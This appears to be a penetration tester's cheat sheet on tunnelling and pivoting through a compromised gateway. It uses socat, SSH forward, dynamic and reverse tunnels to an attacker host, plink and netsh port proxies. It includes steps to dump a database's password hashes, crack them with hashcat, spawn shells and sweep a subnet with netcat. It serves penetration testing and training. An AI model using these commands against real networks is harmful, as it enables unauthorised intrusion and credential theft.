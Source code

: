 # Tunneling

## Port forwarding

### Socat

| WAN | DMZ | Inside LAN |
|-----|-----|------------|
| Kali | Gateway | DB |
| IpAttacker | IpDmzOut - IpDmzIn | IpDbDeepIn |

Run a Socat tunnel on the gateway to the database:
```
gateway$ socat -ddd TCP-LISTEN:2345,fork TCP:DbHostIP:5432
```
and connect to the DB directly from Kali (and retrieve password hashes):
```
kali$ psql -h GatewayIP -p 2345 -U postgres
> \l
> \c mydb
> select table_schema,table_name from information_schema.tables where table_name like '%user%;
> select * from user_table
> \o hashes.txt
> select t1.id,t1.user_name,t2.password_hash from user_table as t1 inner join credential_table as t2 on t1.id = t2.user_id;
> \o
> \q
```
Crack the hashes:
```
kali$ hashcat -m 12001 hashes.txt /usr/share/wordlists/fasttrack.txt # Atlassian hashcat code: hashcat -h
kali$ vim afterhashcat.txt # copy-paste the lines which have been cracked
kali$ tr -d ' ' hashes.txt | awk -F'|' '(NR >2) {print $2, $17}' > loginpass.txt
kali$ vim loginpass.txt # clean ?
kali$ awk -F' ' '{a[$1]=a[$1]?a[$1]":"$2:$2":"$1;}END{for (i in a) print a[i];}' loginpass.txt afterhashcat.txt | awk -F ':' '$3 {print $1, $3}' > final.txt
```

Notes:
- Confluence config file: `/var/atlassian/application-data/confluence/confluence.cfg.xml`
- Awk tips: https://www.theunixschool.com/2012/06/awk-10-examples-to-group-data-in-csv-or.html

Tunnel for an SSH connection: `socat -ddd TCP-LISTEN:2222,fork TCP:DbHostIp:22`

### Ssh

| WAN | DMZ | Inside LAN - subnet 1 | Inside LAN - subnet 2 |
|-----|-----|------------|------|
| Kali | Gateway | DB | Windows |
| IpAttacker | IpDmzOut - IpDmzIn | IpDbOut - IpDbIn | IpWindows |

TTY functionalities with Python:
```
hacked_target$ python3 -c 'import pty; pty.spawn("/bin/sh")'
hacked_target$ python3 -c 'import pty; pty.spawn(["env","TERM=xterm-256color","/bin/bash","--rcfile", "/etc/bash.bashrc","-i"])'
```

Netcat port discovery:
```
hacked_target$ for i in $(seq 1 254) ; do nc -zv -w 1 ${subnet}.${i} $Port; done # listen, verbose, timeout 1sec
```

#### Ssh forward tunnel

```
DmzHost$ ssh -N -L 0.0.0.0:$PortDmzOut:$IpWindows:$PortWindows user@$IpDbOut
Kali$ smbclient -p $PortDmzOut -L //$IpDmzOut/ -U someuser --password=somepass
```

#### Ssh dynamic tunnel

```
DmzHost$ ssh -N -D 0.0.0.0:$PortDmzOut user@$IpDbOut
Kali$ sudo vi /etc/proxychains4.conf
    socks5 $IpDmzOut $PortDmzOut
Kali$ proxychains smbclient -L //$IpWindows/ -U someuser --password=somepass
Kali$ proxychains nmap -vvv -sT --top-ports=20 -Pn $IpWindows
```

#### Ssh reverse tunnel

```
hackeduser@hackedtarget$ sh -N -R 127.0.0.1:$KaliPort:$IpDbIn:$PortDbIn user@IpAttacker # Only Kali will be able to use this tunnel...
hackeduser@hackedtarget$ sh -N -R 0.0.0.0:$KaliPort:$IpDmzIn:$PortDmzIn user@IpAttacker # All IPs will be able to connect through $KaliPort on the Kali box
```
Check with `ss -lntpu` on Kali. Example of connection with PostGreSQL:
```
kali$ psql -h 127.0.0.1 -p $KaliPort -U postgre_user
```
then on the DB, as usual:
```
postgre=# \l
postgre=# \c some_database
postgre=# select * from some_table ;
```

#### Ssh dynamic reverse tunnel

```
hackeduser@hackedtarget$ ssh -N -R $KaliPort kaliuser@IpAttacker
```
then check with `ss -lntpu`, prepare a socks proxy on `/etc/proxychains4.conf`:
```
...
socks5 127.0.0.1 $KaliPort
```
and scan the new target:
```
kali$ proxychains nmap -vvv -sT --top-ports=20 -Pn -n $NewTargetIp
```

#### Sshuttle

On the target:
```
hackeduser@hackedtarget$ socat ...
```
then run the sshuttle on Kali:
```
kali$ sshuttle -r ...
```
and test
```
kali$ smbclient -L //$IpWindows/ -U some_user --password=some_pass
```

### Windows

#### Ssh.exe

```
Windows PS> ssh.exe -N -R $ListeningPort user@$IpAttacker
Kali$ ss -lntpu # check
Kali$ vim /etc/proxychains4.conf
    socks5 127.0.0.1 $ListeningPort
Kali$ proxychains mycommand myoptions
```

#### Plink

```
KaliRshell$ cmdprompt> C:\path\to\plink.exe -ssh -l kaliuser -pw somepass -R 127.0.0.1:9833:127.0.0.1:3389 $IpAttacker
KaliRshell$ cmdprompt> KaliNormalShell$ ss -ntplu # check
Kali$ xfreerdp /u:rdp_user /p:rdp_pass /v:127.0.0.1:9833
```

#### Netsh

```
> netsh interface portproxy add v4tov4 listenport=2222 listenaddress=$IpDmzOut connectport=22 connectaddress=$IpDmzIn
> netstat -anp TCP | find "2222"
> netsh interface portproxy show all
> netsh advfirewall firewall add rule name="my_rule_name" protocol=TCP dir=in localip=$IpDmzOut localport=2222 action=allow
$ ssh user@$IpDmzOut -p2222
> netsh advfirewall firewall delete rule name="my_rule_name"
> netsh interface portproxy del v4tov4 listenport=2222 listenaddress=$IpDmzOut
> netsh interface portproxy show all
```




